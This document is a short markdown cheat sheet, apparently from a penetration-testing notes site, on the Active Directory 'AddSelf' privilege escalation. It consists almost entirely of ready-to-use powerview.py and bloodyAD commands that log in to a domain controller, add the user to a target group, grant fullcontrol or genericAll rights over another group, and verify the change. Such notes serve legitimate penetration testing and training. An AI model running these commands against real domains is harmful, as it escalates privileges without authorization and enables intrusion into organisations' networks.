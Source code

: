 ```yaml
---
title: "AddSelf"
date: 2024-8-2
tags: ["addself", "active directory", "ad", "domain controller", "Windows", "powerview", "bloodAD", "privesc"]
---
```


---
### Privesc #1: Add self to group (From Linux)

{{< tab set1 tab1 active >}}powerview.py{{< /tab >}}
{{< tab set1 tab2 >}}bloodyAD{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
# Connect
sudo ntpdate -s <DC> && powerview <DOMAIN>/<USERNAME>:<PASSWORD>@<TARGET_DOMAIN>
```

```bash
# Add self to group
Add-DomainGroupMember -Identity <TARGET_GROUP> -Members <USERNAME>
```

```bash
# Check
Get-DomainGroupMember -Identity <TARGET_GROUP>
```

```bash
# Exit and login again to apply changes
Add-DomainObjectAcl -TargetIdentity <ANOTHER_GROUP> -PrincipalIdentity <USERNAME> -Rights fullcontrol
```

```bash
# Check
Get-DomainObjectAcl -Identity <TARGET_USER_IN_ANOTHER_GROUP> -Where "SecurityIdentifier contains <USERNAME>"
```

</div>

<small>*Ref: [powerview.py](https://github.com/aniqfakhrul/powerview.py)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```bash
# Add self to group
python3 bloodyAD.py -d <DOMAIN> -u <USERNAME> -p <PASSWORD> --host <DC> add groupMember <TARGET_GROUP> <USERNAME>
```

```bash
# After getting full control of target group (e.g. TARGET_GROUP has genericall over ANOTHER_GROUP)
python3 bloodyAD.py -d <DOMAIN> -u <USERNAME> -p <PASSWORD> --host <DC> add genericAll 'OU=<ANOTHER_GROUP>,DC=<EXAMPLE>,DC=<COM>' <USERNAME>
```

</div>

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}

<br>
